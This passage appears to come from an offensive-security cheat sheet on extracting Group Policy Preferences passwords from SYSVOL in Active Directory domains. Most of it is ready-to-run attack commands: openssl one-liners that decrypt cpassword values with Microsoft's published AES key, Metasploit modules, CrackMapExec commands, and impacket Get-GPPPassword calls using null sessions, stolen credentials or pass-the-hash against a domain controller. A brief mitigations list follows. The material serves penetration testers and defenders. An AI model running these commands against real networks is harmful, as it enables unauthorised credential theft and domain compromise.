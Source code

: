 Decrypt a Group Policy Password found in SYSVOL (by [0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)), using the 32-byte AES key provided by Microsoft in the [MSDN - 2.2.1.1.4 Password Encryption](https://msdn.microsoft.com/en-us/library/cc422924.aspx)

```bash
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

#### Automate the SYSVOL and passwords research

* `Metasploit` modules to enumerate shares and credentials
    ```c
    scanner/smb/smb_enumshares
    post/windows/gather/enum_shares
    post/windows/gather/credentials/gpp
    ```

* CrackMapExec modules
    ```powershell
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
    ```

* [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py)
  ```powershell
  # with a NULL session
  Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

  # with cleartext credentials
  Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

  # pass-the-hash
  Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
  ```

#### Mitigations

* Install [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.
* Delete existing GPP xml files in SYSVOL containing passwords.
* Don’t put passwords in files that are accessible by all authenticated users.

### Exploit Group Policy Objects GPO
